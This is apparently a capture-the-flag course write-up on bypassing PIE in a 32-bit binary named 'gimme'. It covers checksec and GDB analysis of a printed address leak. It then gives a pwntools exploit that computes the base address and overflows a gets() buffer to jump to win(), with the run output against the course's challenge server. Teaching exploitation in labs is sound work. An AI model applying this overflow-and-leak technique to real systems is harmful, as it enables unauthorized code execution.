 ```yaml
---
description: Bypassing PIE with a provided address leak.
---
```


# gimme

{% file src="../../.gitbook/assets/gimme.zip" %}

This binary is the first we've covered thus far that enables PIE. We see this in the `checksec` output:

```nasm
$ checksec gimme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The only thing that's disabled is the canary. This means that this code is still susceptible to buffer overflows.

### Static Analysis

We'll start PIE binaries the same way we start the others. While we search through the binary, we are looking for ways that can leak any address in the binary so that we beat PIE.

We'll start with `win()`. `win()` only makes one call to `system`. We can dissect that the string being passed is _cat flag.txt_, but I'll leave it to the reader to verify this.

The `main()` function only makes a call to `read_in` and then returns.

Now, let's discuss the `read_in` function. We can start dissecting each call and the arguments being passed. The first call is to `printf`:

```nasm
   0x565561fe <+21>:	lea    eax,[ebx-0x2dfb]
   0x56556204 <+27>:	push   eax
   0x56556205 <+28>:	lea    eax,[ebx-0x1fc0]
   0x5655620b <+34>:	push   eax
=> 0x5655620c <+35>:	call   0x56556050 <printf@plt>
```

Checking what's at the address pushed addresses:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/s $ebx-0x1fc0
0x56557008:	"Main function is at: %lx\n"
gef➤  x/wx $ebx-0x2dfb
0x565561cd <main>:	0x83e58955
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We see that the first call to `printf` is printing the address of `main`. After this, there is a `gets` call to a `0x30` byte buffer.

### The Attack Vector

We have everything we need. Our steps are:

1. Leak the address of `main`
2. Use this to register the base address of the binary
3. Calculate the address of `win`
4. Overwrite the return address with the address of `win`

Pwntools helps out with most of this. By loading in the binary using `ELF()`, the offsets will be automatically registered. Once we find the base address, we can register this inside the `ELF` object and proceed as usual.

We use `libc = elf.libc` to register the `libc` offsets. This is because we will be using the `system` call from `libc`. Then, we can call any function using `elf.sym.<function_name>`. When we find the base address, we store it in `elf.address`.

Let's make this happen. We first establish the binary and process:

```python
elf = context.binary = ELF('./gimme')
p = remote('vunrotc.cole-ellis.com', 7100)
```

From here, we get the leak. This is the same way we received the leak in [location](../02-shellcodes/location.md).

```python
p.recvuntil(b'at: ')
leak = int(p.recvline().strip(), 16)
```

Once we have the leak, we know that the base address is the leak minus the offset of `main`. We can then register this in the `ELF` object.

```python
elf.address = leak - elf.sym.main
```

Now, when we use the `elf.sym.<function_name>` syntax, it automatically adds the base address to the offset. Now, we can build our payload using `elf.sym.win` instead of a hardcoded address.

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload and get the flag:

```python
p.sendline(payload)
p.interactive()
```

As we can see, PIE is bypassed, and the binary is exploited:

```nasm
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 7100: Done
[*] Switching to interactive mode
flag{bye_bye_ms_american_pie}
/home/ctf/runner.sh: line 5:    12 Segmentation fault      (core dumped) ./gimme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 7100
```
